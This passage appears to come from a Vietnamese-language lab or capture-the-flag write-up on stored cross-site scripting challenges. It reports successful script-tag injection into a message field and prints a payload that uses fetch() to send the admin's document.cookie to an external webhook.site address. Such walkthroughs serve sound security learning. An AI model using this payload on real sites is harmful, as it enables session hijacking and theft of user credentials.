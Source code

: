 ![image.png](Images/image%2011.png)

Thử payload vào các trường, và message chèn thẻ `<script>` thành công

![image.png](Images/image%2012.png)

Payload lấy cookie admin: `<script>fetch('https://webhook.site/a6c72a00-af24-4933-b179-479b47429209?c='+document.cookie)</script>`

## XSS-04: **XSS - Stored 2**
